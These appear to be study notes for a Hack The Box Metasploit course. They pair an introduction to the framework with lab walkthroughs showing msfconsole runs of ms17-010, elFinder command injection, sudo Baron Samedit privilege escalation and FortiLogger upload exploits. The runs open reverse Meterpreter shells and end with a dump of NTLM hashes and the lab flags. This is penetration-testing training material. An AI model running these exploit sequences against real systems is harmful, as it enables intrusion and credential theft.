








# Introduction to Metasploit

The `Metasploit Project` is a Ruby-based, modular penetration testing platform that enables you to write, test, and execute the exploit code. This exploit code can be custom-made by the user or taken from a database containing the latest already discovered and modularized exploits. The `Metasploit Framework` includes a suite of tools that you can use to test security vulnerabilities, enumerate networks, execute attacks, and evade detection. At its core, the `Metasploit Project` is a collection of commonly used tools that provide a complete environment for penetration testing and exploit development.


The `modules` mentioned are actual exploit proof-of-concepts that have already been developed and tested in the wild and integrated within the framework to provide pentesters with ease of access to different attack vectors for different platforms and services. Metasploit is not a jack of all trades but a swiss army knife with just enough tools to get us through the most common unpatched vulnerabilities.

Its strong suit is that it provides a plethora of available targets and versions, all a few commands away from a successful foothold. These, combined with an exploit tailor-made to those vulnerable versions and with a payload that is sent after the exploit, which will give us actual access into the system, provide us with an easy, automated way to switch between target connections during our post-exploitation ventures.

---

## Metasploit Pro

`Metasploit` as a product is split into two versions. The `Metasploit Pro` version is different from the `Metasploit Framework` one with some additional features:

- Task Chains
- Social Engineering
- Vulnerability Validations
- GUI
- Quick Start Wizards
- Nexpose Integration

If you're more of a command-line user and prefer the extra features, the Pro version also contains its own console, much like `msfconsole`.

To have a general idea of what Metasploit Pro's newest features can achieve, check out the list below:

|**Infiltrate**|**Collect Data**|**Remediate**|
|---|---|---|
|Manual Exploitation|Import and Scan Data|Bruteforce|
|Anti-virus Evasion|Discovery Scans|Task Chains|
|IPS/IDS Evasion|Meta-Modules|Exploitation Workflow|
|Proxy Pivot|Nexpose Scan Integration|Session Rerun|
|Post-Exploitation||Task Replay|
|Session Clean-up||Project Sonar Integration|
|Credentials Reuse||Session Management|
|Social Engineering||Credential Management|
|Payload Generator||Team Collaboration|
|Quick Pen-testing||Web Interface|
|VPN Pivoting||Backup and Restore|
|Vulnerability Validation||Data Export|
|Phishing Wizard||Evidence Collection|
|Web App Testing||Reporting|
|Persistent Sessions||Tagging Data|

---

## Metasploit Framework Console

The `msfconsole` is probably the most popular interface to the `Metasploit Framework` `(MSF)`. It provides an "all-in-one" centralized console and allows you efficient access to virtually all options available in the `MSF`. `Msfconsole` may seem intimidating at first, but once you learn the syntax of the commands, you will learn to appreciate the power of utilizing this interface.

The features that `msfconsole` generally brings are the following:

- It is the only supported way to access most of the features within `Metasploit`
    
- Provides a console-based interface to the `Framework`
    
- Contains the most features and is the most stable `MSF` interface
    
- Full readline support, tabbing, and command completion
    
- Execution of external commands in `msfconsole`
    

Both products mentioned above come with an extensive database of available modules to use in our assessments. These, combined with the use of external commands such as scanners, social engineering toolkits, and payload generators, can turn our setup into a ready-to-strike machine that will allow us to seamlessly control and manipulate different vulnerabilities in the wild with the use of sessions and jobs in the same way we would see tabs on an Internet browser.

The key term here is usability—user experience. The ease with which we can control the console can improve our learning experience. Therefore, let us delve into the specifics.

---

## Understanding the Architecture

To fully operate whatever tool we are using, we must first look under its hood. It is good practice, and it can offer us better insight into what will be going on during our security assessments when that tool comes into play. It is essential not to have [any wildcards that might leave you or your client exposed to data breaches](https://www.cobaltstrike.com/blog/cobalt-strike-rce-active-exploitation-reported).

By default, all the base files related to Metasploit Framework can be found under `/usr/share/metasploit-framework` in our `ParrotOS Security` distro.

#### Data, Documentation, Lib

These are the base files for the Framework. The Data and Lib are the functioning parts of the msfconsole interface, while the Documentation folder contains all the technical details about the project.

#### Modules

The Modules detailed above are split into separate categories in this folder. We will go into detail about these in the next sections. They are contained in the following folders:

  Introduction to Metasploit

```shell-session
0xsrt@htb[/htb]$ ls /usr/share/metasploit-framework/modules

auxiliary  encoders  evasion  exploits  nops  payloads  post
```

#### Plugins

Plugins offer the pentester more flexibility when using the `msfconsole` since they can easily be manually or automatically loaded as needed to provide extra functionality and automation during our assessment.

  Introduction to Metasploit

```shell-session
0xsrt@htb[/htb]$ ls /usr/share/metasploit-framework/plugins/

aggregator.rb      ips_filter.rb  openvas.rb           sounds.rb
alias.rb           komand.rb      pcap_log.rb          sqlmap.rb
auto_add_route.rb  lab.rb         request.rb           thread.rb
beholder.rb        libnotify.rb   rssfeed.rb           token_adduser.rb
db_credcollect.rb  msfd.rb        sample.rb            token_hunter.rb
db_tracker.rb      msgrpc.rb      session_notifier.rb  wiki.rb
event_tester.rb    nessus.rb      session_tagger.rb    wmap.rb
ffautoregen.rb     nexpose.rb     socket_logger.rb
```

#### Scripts

Meterpreter functionality and other useful scripts.

  Introduction to Metasploit

```shell-session
0xsrt@htb[/htb]$ ls /usr/share/metasploit-framework/scripts/

meterpreter  ps  resource  shell
```

#### Tools

Command-line utilities that can be called directly from the `msfconsole` menu.

  Introduction to Metasploit

```shell-session
0xsrt@htb[/htb]$ ls /usr/share/metasploit-framework/tools/

context  docs     hardware  modules   payloads
dev      exploit  memdump   password  recon
```

Now that we know all of these locations, it will be easy for us to reference them in the future when we decide to import new modules or even create new ones from scratch.

#### Questions

Answer the question(s) below to complete this Section and earn cubes!


+  Which version of Metasploit comes equipped with a GUI interface?
> Metasploit Pro


+ What command do you use to interact with the free version of Metasploit?

> msfconsole

# Modules
#### Questions

+ Use the Metasploit-Framework to exploit the target with EternalRomance. Find the flag.txt file on Administrator's desktop and submit the contents as the answer.

```zsh
❯ sudo nmap --script smb-vuln* -p 139,445 10.129.139.197
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-21 09:08 EDT
Nmap scan report for 10.129.139.197
Host is up (0.27s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)

```

```zsh
msf6 > search type:exploit platform:windows ms17-010
msf6 > use 10
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) > 
msf6 exploit(windows/smb/ms17_010_psexec) > setg rhosts 10.129.139.197
rhosts => 10.129.139.197
msf6 exploit(windows/smb/ms17_010_psexec) > setg lhost tun0
lhost => tun0
msf6 exploit(windows/smb/ms17_010_psexec) > run
[*] Started reverse TCP handler on 10.10.14.174:4444 
[*] 10.129.139.197:445 - Target OS: Windows Server 2016 Standard 14393
[*] 10.129.139.197:445 - Built a write-what-where primitive...
[+] 10.129.139.197:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.129.139.197:445 - Selecting PowerShell target
[*] 10.129.139.197:445 - Executing the payload...
[+] 10.129.139.197:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (177734 bytes) to 10.129.139.197
[*] Meterpreter session 1 opened (10.10.14.174:4444 -> 10.129.139.197:49671) at 2025-04-21 09:14:37 -0400

meterpreter > cat C:/Users/Administrator/Desktop/flag.txt
HTB{MSF-W1nD0w5-3xPL01t4t10n}meterpreter > 
```

# Payloads

#### Questions

+ Exploit the Apache Druid service and find the flag.txt file. Submit the contents of this file as the answer.

```zsh
❯ sudo nmap -sCV -p 2181,8081,8082,8083,8091,8888 -T 4 --min-rate 3000 10.129.155.99
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-21 09:42 EDT
Nmap scan report for 10.129.155.99
Host is up (0.27s latency).

PORT     STATE SERVICE   VERSION
2181/tcp open  zookeeper Zookeeper 3.4.14-4c25d480e66aadd371de8bd2fd8da255ac140bcf (Built on 03/06/2019)
8081/tcp open  http      Jetty 9.4.12.v20180830
| http-title: Apache Druid
|_Requested resource was http://10.129.155.99:8081/unified-console.html
|_http-server-header: Jetty(9.4.12.v20180830)
8082/tcp open  http      Jetty 9.4.12.v20180830
|_http-title: Site doesn't have a title.
|_http-server-header: Jetty(9.4.12.v20180830)
8083/tcp open  http      Jetty 9.4.12.v20180830
|_http-server-header: Jetty(9.4.12.v20180830)
|_http-title: Site doesn't have a title.
8091/tcp open  http      Jetty 9.4.12.v20180830
|_http-title: Site doesn't have a title.
|_http-server-header: Jetty(9.4.12.v20180830)
8888/tcp open  http      Jetty 9.4.12.v20180830
|_http-server-header: Jetty(9.4.12.v20180830)
| http-title: Apache Druid
|_Requested resource was http://10.129.155.99:8888/unified-console.html

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.55 seconds
                                                                
```





# Sessions


+ 1  The target has a specific web application running that we can find by looking into the HTML source code. What is the name of that web application?



+ 1  Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?

Để ý thằng này dùng `connector php` nên chọn module phù hợp.



```zsh
msf6 exploit(linux/http/elfinder_archive_cmd_injection) > run
[*] Started reverse TCP handler on 10.10.14.174:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. elFinder running version 2.1.53
[*] Uploading file KpRfe.txt to elFinder
[+] Text file was successfully uploaded!
[*] Attempting to create archive tHrUK.zip
[+] Archive was successfully created!
[*] Using URL: http://10.10.14.174:8080/3tfTm8ze9RE
[*] Client 10.129.194.204 (Wget/1.20.3 (linux-gnu)) requested /3tfTm8ze9RE
[*] Sending payload to 10.129.194.204 (Wget/1.20.3 (linux-gnu))
[*] Command Stager progress -  52.21% done (59/113 bytes)
[*] Command Stager progress -  71.68% done (81/113 bytes)
[*] Sending stage (1017704 bytes) to 10.129.194.204
[+] Deleted KpRfe.txt
[+] Deleted tHrUK.zip
[*] Meterpreter session 1 opened (10.10.14.174:4444 -> 10.129.194.204:38568) at 2025-04-22 05:01:09 -0400
[*] Command Stager progress -  83.19% done (94/113 bytes)
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Server stopped.
meterpreter > getuid
Server username: www-data
meterpreter > 
```

+ 2  The target system has an old version of Sudo running. Find the relevant exploit and get root access to the target system. Find the flag.txt file and submit the contents of it as the answer.



```zsh
msf6 exploit(linux/http/elfinder_archive_cmd_injection) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information                Connection
  --  ----  ----                   -----------                ----------
  1         meterpreter x86/linux  www-data @ 10.129.194.204  10.10.14.174:4444 -> 10.129.194.204:38568 (10.129.194.204)

msf6 exploit(linux/http/elfinder_archive_cmd_injection) > use exploit/linux/local/sudo_baron_samedit
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/sudo_baron_samedit) > set session 1
session => 1
msf6 exploit(linux/local/sudo_baron_samedit) > set lhost tun0
lhost => tun0
msf6 exploit(linux/local/sudo_baron_samedit) > run
[*] Started reverse TCP handler on 10.10.14.174:4444 
[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: x86
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. sudo 1.8.31 may be a vulnerable build.
[*] Using automatically selected target: Ubuntu 20.04 x64 (sudo v1.8.31, libc v2.31)
[*] Writing '/tmp/waV4zc.py' (763 bytes) ...
[*] Writing '/tmp/libnss_P/3lVPE .so.2' (540 bytes) ...
[*] Sending stage (3045380 bytes) to 10.129.194.204
[+] Deleted /tmp/waV4zc.py
[+] Deleted /tmp/libnss_P/3lVPE .so.2
[+] Deleted /tmp/libnss_P
[*] Meterpreter session 2 opened (10.10.14.174:4444 -> 10.129.194.204:38790) at 2025-04-22 05:18:53 -0400

meterpreter > getuid
Server username: root
meterpreter > cat /root/flag.txt
HTB{5e55ion5_4r3_sw33t}
meterpreter > 

```

# Meterpreter

+ 1  Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?

Có thể dùng default login admin:admin để đăng nhập:



Version 4.4.2.2 -> CÓ VULN


```zsh
msf6 > search fortilogger

Matching Modules
================

   #  Name                                                   Disclosure Date  Rank    Check  Description
   -  ----                                                   ---------------  ----    -----  -----------
   0  exploit/windows/http/fortilogger_arbitrary_fileupload  2021-02-26       normal  Yes    FortiLogger Arbitrary File Upload Exploit


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/fortilogger_arbitrary_fileupload

msf6 > 

```

```zsh
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

+ 1  Retrieve the NTLM password hash for the "htb-student" user. Submit the hash as the answer.

```zsh
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bdaffbfe64f1fc646a3353be1c2c3c99:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb-student:1002:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:4b4ba140ac0767077aee1958e7f78070:::
```
